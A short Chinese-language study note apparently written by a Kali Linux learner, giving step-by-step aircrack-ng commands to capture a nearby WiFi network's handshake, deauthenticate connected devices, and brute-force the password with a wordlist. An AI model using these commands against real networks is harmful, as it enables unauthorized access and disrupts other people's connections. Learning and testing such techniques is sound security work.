



# Kali-Linux系统学习记录

> Kali-Linux学习笔记

## 无线wifi密码-暴力破解

### 工具

* 外部设备：无线网卡
* 操作系统：Kali-Linux-2020.3-vmware-amd64

## 步骤

1. 插入“无线网卡”

1. 输入`iwconfig` 查看是否存在 `wlan0`
2. 开启监听 `sudo airmon-ng start wlan0`
3. 扫描附近的`wifi`，确定目标`wifi`的MAC地址`BSSID`及频道号`CH`
4. 监听目标wifi，尝试捕获目标wifi的握手包，输入`sudo airodump-ng wlan0mon -c <步骤4的CH> --bssid <步骤4的BSSID> -w <握手包存放位置，例如：~/Documents/wlan/wlan0mon>`，如同，取得已经与目标wifi建立连接的设备的`BSSID`及`STATION`

1. 由于握手包是设备和wifi之间建立连接时所产生的，因此需要对已经建立与目标wifi连接的设备进行断网攻击（aireplay-ng -0），保留步骤4的终端，打开新终端进行断网攻击，输入：`sudo aireplay-ng -0 <攻击次数，例如：20> -a <步骤4取得的目标WiFi的BSSID> -c <步骤5取得的与目标wifi建立连接的某设备BSSID> wlan0mon`，如图，在最后两次攻击时，目标设置已经与目标wiif断开连接

1. 等待步骤6的目标设备与目标wifi重新建立连接，其后，回到步骤5的终端，可以看到已经抓取到了握手包

1. 因为已经抓取到握手包，所以无需再使用无线网卡，可以停止网卡的监听，输入：`sudo airmon-ng stop wlan0mon`
2. 握手包包含设备与wifi的建立连接的验证密钥，因此可对握手包进行暴力破解，输入：`sudo aircrack-ng -a2 -b <步骤4取得的目标WiFi的BSSID> -w <字典位置，例如：~/Documents/rockyou.txt> <握手包存放位置，若使用了步骤5的路径，则是：~/Documents/wlan/*.cap>`

## tips

* 需要使用无线网卡，最好是能兼容linux免驱动的型号
* 由于是使用暴力破解的方式，因为破解wifi密码的重点在于字典上，需要字典足够大到能包含目标wifi密码，因此需要对字典进行迭代补充

